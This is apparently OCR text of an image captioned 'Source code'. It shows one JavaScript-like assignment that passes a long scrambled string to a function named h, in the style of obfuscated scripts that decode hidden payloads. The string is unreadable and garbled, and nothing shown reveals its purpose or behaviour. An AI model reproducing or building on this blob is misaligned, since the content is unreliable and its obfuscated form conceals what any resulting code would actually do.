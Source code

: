 o=h(n,"Zdv?yjp=*)MYn1F-py=YY=-y?d=MMYF*vjp{p)1?d??-*dn)-=F-jyYFF*?F)=Y*-j?vp1=pFd7Fy))jn=Y-vn=Mnp-y-,j1Y?gd?FpvYd)YK*jFMnF)ddjY*-nydYp7)j1vr-yMjvMnM*b1=dMFFS?y)?MFFYv*p?=?1)i-?-)?=*11y==dpnYd_n=*MFFfv?ppMv1vnFj))=*j-vyvyYMpxj?j=)Y)F--R=-nj-)?p=?MFnYvypi)**pFYjj=-1jvny-*nn)HyE)=?MYFnvdd)=)1YddjM)M1:d?y-)d=YFY?F=-ny-*vM=MYv-v?*=1YvF-vnp=*jn)-=yp*FMYddjd)YnYO*yj*7)=F1d-pYj*Y=d?p?MV1j^Yjp)YFddjjv*-nM1b?epnpj1)v#pFMn-d?=pYM*FjvR?d*vn=e)-*j1n=-dy=*Mnd-F?Y=p=-F1djjj)?Fpv1pl)11MdjvY=YY=Ybv=vM*--)v?=)nj-??.p1M*Ynd*jpy?M)dd-MpYnp-v?v=yYpFn?1*?Y=-y?dpn*?1_dnjX)y1jYF_n)?Fpf1yM*=nvn=?jp1j11dv)j)MyFvd=y1yjYj&*y)*Fnv-yyy=nYn&vy==nY)-p?dy?)=F=nn?d)YnjdY=y)j1vW-yMpvY?F1FjjjY?FFv*py)M1jvrjFy=Mpcvjv*-ny-M?)*dYY-F?yp=Y?-*?n=vM-Fnv=vF=p*jFM?yjF1yvXyF*Yn*^?dMp=Y?F=vYpnjjn^dyp?y)YYd?yy)*11dvy-*nn=Fv-jypYn-yvFjFYd-)vYp*MjF>F)j)*Fn=&=?F*p)j-j?=*dn)-Y?*=jYlY*dppd)y1MuM}vp=1d-YjdMsnYV*yj*T)yFp?vdY*Y1Fd-py)*nMdMjv)v=11?dU=*nnd)yp*?n.-Ysdj1M11Fvjj-)n1=n=vj)j1v-n?Y*